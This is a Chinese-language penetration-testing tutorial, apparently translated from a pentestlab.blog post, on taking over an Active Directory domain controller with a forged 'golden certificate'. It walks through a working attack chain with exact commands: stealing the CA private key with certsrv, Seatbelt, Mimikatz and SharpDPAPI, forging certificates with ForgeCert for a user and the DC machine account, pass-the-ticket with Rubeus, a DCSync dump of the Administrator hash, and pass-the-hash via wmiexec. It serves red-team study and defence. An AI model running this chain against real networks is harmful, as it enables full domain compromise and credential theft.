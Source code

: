 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：
1.	证书提取 (CA)
2.	伪造CA证书
3.	获取 Kerberos 票证（DC 的机器账户）
4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。

![](/img/利用黄金证书劫持域控/1.png)

<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。

![](/img/利用黄金证书劫持域控/2.png)

<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。

![](/img/利用黄金证书劫持域控/3.png)

<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates

![](/img/利用黄金证书劫持域控/4.png)

<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export

![](/img/利用黄金证书劫持域控/5.png)

<center>
Mimikatz – 导出证书
</center> 


![](/img/利用黄金证书劫持域控/6.png)

<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。

![](/img/利用黄金证书劫持域控/7.png)


SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine

![](/img/利用黄金证书劫持域控/8.png)

<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。

![](/img/利用黄金证书劫持域控/9.png)

<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

![](/img/利用黄金证书劫持域控/10.png)

<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab

![](/img/利用黄金证书劫持域控/11.png)

<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/12.png)

<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/13.png)

<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123

![](/img/利用黄金证书劫持域控/14.png)

<center>
Rubeus – Kerberos 票证 
</center>  
 

![](/img/利用黄金证书劫持域控/15.png)

<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123

![](/img/利用黄金证书劫持域控/16.png)

<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 


![](/img/利用黄金证书劫持域控/17.png)

<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi

![](/img/利用黄金证书劫持域控/18.png)

<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi

![](/img/利用黄金证书劫持域控/19.png)

<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator

![](/img/利用黄金证书劫持域控/20.png)

<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1

![](/img/利用黄金证书劫持域控/21.png)

<center>
WMI 连接 - 域控制器
</center> 


参考链接：

https://github.com/GhostPack/Seatbelt

https://github.com/GhostPack/SharpDPAPI

https://github.com/GhostPack/ForgeCert

https://pentestlab.blog/2021/11/15/golden-certificate/
